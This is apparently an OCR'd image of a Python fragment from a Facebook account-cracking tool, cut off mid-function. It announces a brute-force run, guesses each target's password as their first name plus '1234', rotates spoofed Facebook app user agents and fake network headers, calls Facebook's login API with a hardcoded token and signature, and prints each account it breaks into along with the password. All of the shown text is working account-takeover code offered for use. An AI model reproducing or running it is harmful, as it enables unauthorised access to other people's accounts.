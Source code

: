 		crack_select1()

	os.system("clear")

	logo()

	print("")

	print("\033[93;1m  TOTAL IDS : \033[92;1m"+str(len(id)))

	print("\033[92;1m  BRUTE HAS BEEN STARTED\x1b[0m")

	print("\033[94;1m  WAIT AND SEE \033[92;1m✘\033[91;1m✘\x1b[0m")

	linex()

	def main(arg):

		user=arg

		uid,name=user.split("|")

		_azimua = random.choice(["Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]", "[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]", "Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]", "Mozilla/5.0 (Linux; Android 5.1.1; A37f Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.152 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/305.1.0.40.120;]", "Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3", "Mozilla/5.0 (iPhone; CPU iPhone OS 11_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E216 [FBAN/FBIOS;FBAV/170.0.0.60.91;FBBV/105964764;FBDV/iPhone10,1;FBMD/iPhone;FBSN/iOS;FBSV/11.3;FBSS/2;FBCR/Sprint;FBID/phone;FBLC/en_US;FBOP/5;FBRV/106631002]", "Mozilla/5.0 (Linux; Android 7.1.1; ASUS Chromebook Flip C302 Build/R70-11021.56.0; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.80 Safari/537.36 [FB_IAB/FB4A;FBAV/198.0.0.53.101;]"])

		try:

			pass1 = name.lower().split(' ')[0] + '1234'

			api = 'https://b-api.facebook.com/method/auth.login'

			params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass1, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

			headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

			data = requests.get(api, params=params, headers=headers_)

			if "access_token" in data.text and "EAAA" in data.text:

				print(" \033[1;32m[-OK] "+uid+" | "+pass1+"\033[0;97m")

